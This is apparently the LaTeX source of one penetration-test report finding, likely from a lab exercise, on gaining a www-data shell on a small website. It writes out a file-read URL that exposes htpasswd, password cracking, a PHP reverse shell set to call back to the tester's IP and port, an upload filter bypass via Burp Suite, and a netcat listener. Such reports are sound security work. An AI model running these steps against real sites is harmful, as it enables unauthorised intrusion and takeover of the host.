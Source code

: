 \documentclass[notitlepage]{article}
\begin{document}

  \subsection{Finding: \emph{www-data shell access}}
  

	\subsubsection*{Severity Rating}
	    Critical Severity: \\
		\cvss(A,L,N,N,C,H,H,H, 9.6)
		
  	\subsubsection*{Vulnerability Description}
        An attacker can navigate to Brian's site, get access to the administrative control panel, and through some effort, upload a shell to gain access
        to the Host Machine as user www-data. Once the attacker is in, they will have access to all files that www-data has access to and can modify
        Brian's site as well possibly find other information on the host machine that is not well hidden.

  	\subsubsection*{Confirmation method}
  	    First, get the credentials to the admin panel by navigating to 		
\begin{verbatim}
www.artstailor.com/brian/getimage.php?raw=true&file=htpasswd
\end{verbatim}
    and then running this through John The Ripper to get the following censored credentials
\begin{verbatim}
Brian: Sw...h
\end{verbatim}
    We can alter the reverse shell we want to upload to make sure it comes back to our own machine. For me, this was
\begin{verbatim}
$ip = '172.24.0.10'
$port = '6166'
\end{verbatim}
    Next, we want to move this file to a jpg file and then open up Burp Suite and upload this file as a test to see how the file is uploaded. We
    can then alter the POST packet to change the name to reverse.php as it seems to only check the Content-Type if we upload it directly on Burp Suite.
    Lastly, we open up netcat to the port we wrote earlier and navigate to the reverse.php as follows
\begin{verbatim}
nc -nlvp 6166
xdg-open www.artstailor.com/brian/imgfiles/reverse.php
\end{verbatim}
    On the terminal with netcat open, we can now see that we have a shell and running whoami reveals that we are in fact www-data. Running ip a further reveals that we are on
    172.70.184.133 which is the IP where the brian site was hosted on.
\end{document}
